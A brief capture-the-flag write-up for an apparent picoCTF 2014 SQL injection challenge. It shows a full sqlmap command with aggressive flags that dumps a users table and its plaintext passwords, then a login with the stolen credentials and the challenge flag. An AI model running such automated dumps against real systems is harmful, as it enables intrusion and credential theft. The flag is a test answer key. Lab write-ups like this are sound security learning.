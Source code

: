 #Injection 1 - 90

For this problem, I fired up sqlmap (https://github.com/sqlmapproject) an automated SQL injection and database takeover tool. Using the followin command to find a vulnerability and enumerate the databse:
```
./sqlmap.py -u http://web2014.picoctf.com/injection1/ --forms --level=5 --risk=3 --batch --dump
```

Gave me the following infromation:

```
[14:18:57] [INFO] fetching number of tables for database 'sql1'
[14:18:57] [INFO] retrieved: 1
[14:19:00] [INFO] retrieved: users
[14:19:40] [INFO] fetching columns for table 'users' in database 'sql1'
[14:19:40] [INFO] retrieved: 2
[14:19:44] [INFO] retrieved: username
[14:20:47] [INFO] retrieved: password
[14:21:58] [INFO] fetching entries for table 'users' in database 'sql1'
[14:21:58] [INFO] fetching number of entries for table 'users' in database 'sql1'
[14:21:58] [INFO] retrieved: 2
[14:22:02] [INFO] retrieved: super_secret_admin_password
[14:25:53] [INFO] retrieved: admin
[14:26:32] [INFO] retrieved: super_secret_not_admin_password
[14:31:05] [INFO] retrieved: not_admin
[14:32:25] [INFO] analyzing table dump for possible password hashes
Database: sql1
Table: users
[2 entries]
+-----------+---------------------------------+
| username  | password                        |
+-----------+---------------------------------+
| admin     | super_secret_admin_password     |
| not_admin | super_secret_not_admin_password |
+-----------+---------------------------------+
```

Logging in with the username "not_admin" and the  password "super_secret_not_admin_password":

```
Logged in!

Your flag is: flag_vFtTcLf7w2st5FM74b
```
